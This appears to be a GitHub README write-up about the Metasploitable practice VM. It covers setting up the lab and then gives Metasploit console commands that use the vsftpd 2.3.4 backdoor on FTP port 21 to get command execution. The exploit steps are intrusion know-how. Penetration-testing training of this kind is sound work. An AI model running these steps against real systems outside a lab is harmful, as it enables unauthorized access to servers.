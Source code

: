 # Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- [VMware](https://www.vmware.com/) , [VitrualBox](https://www.virtualbox.org/) or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

> P.s. The Linux and Metasploitable machines should be in the same network group




## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : <br/>
> 21/tcp   open  ftp         vsftpd 2.3.4<br/>
> ftp-anon: Anonymous FTP login allowed (FTP code 230)


**FTP Service (port:21) Exploit :**

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit

As you can see we executed some command to see if our exploit work.

![Sample](https://i.imgur.com/jHsmu7E.png)
